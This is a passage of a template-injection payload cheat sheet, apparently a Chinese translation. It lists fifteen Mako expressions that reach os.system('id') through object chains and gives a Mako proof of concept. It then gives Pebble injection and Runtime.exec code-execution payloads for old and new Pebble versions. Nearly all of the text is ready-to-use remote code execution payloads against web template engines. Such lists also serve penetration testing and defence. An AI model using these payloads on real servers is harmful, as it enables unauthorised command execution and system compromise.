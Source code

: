 ```python
${self.template.module.filters.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
${self.context._with_template._mmarker.module.cache.util.os.system("id")}
${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.cache.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
${self.context._with_template.module.filters.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
```

PoC :

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```

来源 [@podalirius_](https://twitter.com/podalirius_) : [https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)


---

# 翻译结果

## Pebble

[官方网站](https://pebbletemplates.io/)

> Pebble 是一个受 [Twig](./#twig) 启发的 Java 模板引擎，类似于 Python 的 [Jinja](./#jinja2) 模板引擎语法。它具有模板继承和易于阅读的语法，内置自动转义以增强安全性，并包括对国际化的集成支持。

### Pebble - 基本注入

```java
{{ someString.toUPPERCASE() }}
```

### Pebble - 代码执行

旧版本的 Pebble（< 版本 3.0.9）：`{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`。

新版本的 Pebble：

```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```